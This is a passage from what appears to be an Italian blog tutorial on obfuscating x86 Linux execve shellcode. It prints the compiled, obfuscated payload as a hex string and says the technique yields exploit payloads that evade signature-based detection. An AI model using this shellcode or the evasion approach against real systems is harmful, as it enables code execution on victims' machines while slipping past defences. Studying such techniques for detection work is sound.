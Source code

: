 Una volta compilato, ottengo il seguente esadecimale:
{%highlight sh%}
\xb9\xef\xbe\xad\xde\x81\xe9\xef\xbe\xad\xde\xf7\xe1\x50\xb8\x44\x33\x22\x11\x05\x11\x22\x33\x44\x05\x11\x11\x11\x11\x05\xc9\xc8\x0c\x02\x50\xb8\xcd\xab\x34\x12\x05\x23\x23\x23\x23\x05\x12\x12\x12\x12\x05\x2d\x81\xff\x26\x50\xb8\xef\xbe\xad\xde\x25\x10\x41\x52\x21\x89\xe3\xb0\x0b\xcd\x80
{%endhighlight%}

Ad una prima occhiata è nettamente diverso dal codice di partenza anche se non
rappresenta alcuna difficoltà per un qualsiasi membro di un blue team.



## Off by one

Offuscare il codice attraverso il refactoring e la riscrittura creativa di
istruzioni è una cosa estremamente divertente, che ci permette di ripassare il
nostro assembler e che ci permette di costruire un exploit con un payload che
difficilmente verrà rilevato da un approccio solamente basato su signature.

Nella seconda parte, continueremo il lavoro del nostro ufficio degli affari
semplici e andremo a complicare ancora di più il codice assembler della nostra
execve.

Enjoy it!
